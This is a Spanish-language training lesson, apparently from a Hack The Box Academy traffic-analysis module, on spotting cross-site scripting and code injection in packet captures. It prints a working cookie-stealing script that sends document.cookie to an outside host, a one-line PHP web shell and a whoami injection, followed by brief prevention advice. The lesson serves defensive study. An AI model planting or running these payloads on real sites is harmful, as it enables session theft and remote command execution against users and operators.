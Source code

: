 # Cross-Site Scripting (XSS) & Code Injection Detection

**Archivo PCAP relacionado**:

- `XSS_Simple.pcapng`

---

Supongamos que estábamos revisando nuestras solicitudes HTTP y notamos que se enviaba una buena cantidad de solicitudes a un "servidor" interno, no reconocimos. Esto podría ser una clara indicación de secuencias de comandos de sitios cruzados. Tomemos la siguiente salida, por ejemplo.

![](https://academy.hackthebox.com/storage/modules/229/1-XSS.png)

Podríamos notar que se envían muchos valores, y en casos reales esto podría no ser tan obvio que estas son cookies/tokens de los usuarios. En cambio, incluso podría estar codificado o encriptado mientras está en tránsito. Esencialmente hablando, los secuencias de comandos entre sitios trabajan a través de un atacante inyectando un código de script o script malicioso en una de nuestras páginas web a través de la entrada del usuario. Cuando otros usuarios visiten nuestro servidor web, sus navegadores ejecutarán este código. Los atacantes en muchos casos utilizarán esta técnica para robar tokens, cookies, valores de sesión y más. Si tuviéramos que seguir una de estas solicitudes, se vería como las siguientes.

![](https://academy.hackthebox.com/storage/modules/229/2-XSS_.png)

Llegar a la raíz de donde se origina este código puede ser algo complicado. Sin embargo, supongamos que teníamos un área de comentarios de usuario en nuestro servidor web. Podríamos notar que uno de los comentarios se parece a los siguientes.

Código:javascript

```jsx
<script>
  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
</script>

```

Esto sería una exitosa secuencia de comandos de sitios cruzados del atacante, y como tal, quisiéramos eliminar este comentario rápidamente, e incluso en la mayoría de los casos derribar nuestro servidor para solucionar el problema antes de que persista. También podríamos notar en algunos casos, que un atacante podría intentar inyectar código en estos campos como los siguientes dos ejemplos.

Para que puedan obtener el comando y el control a través de PHP.

Código:php

```php
<?php system($_GET['cmd']);?>
```

O para ejecutar un solo comando con php:

Código:php

```php
<?php echo `whoami`?>
```

### **Prevención de XSS e inyección de código**

Para evitar estas amenazas después de detectarlas, podemos hacer lo siguiente.

1. `Sanitize and handle user input in an acceptable manner.`
2. `Do not interpret user input as code.`